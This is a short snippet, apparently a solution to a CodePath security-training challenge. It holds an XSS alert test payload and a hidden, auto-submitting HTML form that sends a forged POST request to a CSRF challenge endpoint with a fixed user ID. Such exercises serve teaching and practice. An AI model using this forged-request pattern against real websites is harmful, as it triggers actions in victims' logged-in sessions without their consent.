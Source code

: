 <SCRIPT>alert('XSS')</SCRIPT>
<form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userId" value="910799f4f87245cd9c6a00924346f1252a3b401d" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>

